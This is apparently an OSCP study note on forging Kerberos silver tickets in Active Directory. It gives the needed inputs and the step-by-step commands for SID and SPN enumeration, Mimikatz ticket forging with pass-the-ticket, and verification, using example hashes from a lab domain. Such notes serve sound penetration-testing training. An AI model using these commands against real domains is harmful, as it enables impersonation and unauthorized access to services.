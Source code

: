 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/5-silver-tickets/"}
---
```


-----------
- Ability to access SPN as anyone if owns hash of any account of that SPN
- Application checks user permissions in service ticket, but are often not verified by anything
- It trusts the integrity since the ticket is encrypted with the password hash
- Forging these tickets can be prevented with Privileged Account Certificate (PAC) validation. However, it is rare.
- Using an account password or NTLM hash a ticket can be created to access the application on all servers with the same SPN
- Information needed to forge a silver ticket:
	- SPN password hash
	- Domain SID
	- Target SPN
-------------------------
### Forging a silver ticket with Mimikatz:
1. Get NTLM hash in some way.
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Get SPN:
```
#Using setspn.exe:
setspn -L <user>

#Using PowerView:
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
4. Craft ticket:
```
#Run mimikatz:
.\mimikatz.exe

#Engage debug mode:
privilege::debug

#Craft ticket:
kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<hostname> /service:<service> /rc4:<ntlm> /user:<targetuser>

#Example:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
5. Confirm ticket is loaded in to memory in Powershell:
```
klist
```

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:08d7a47a6f9f66b97b1bae4178747494 /user:iis_service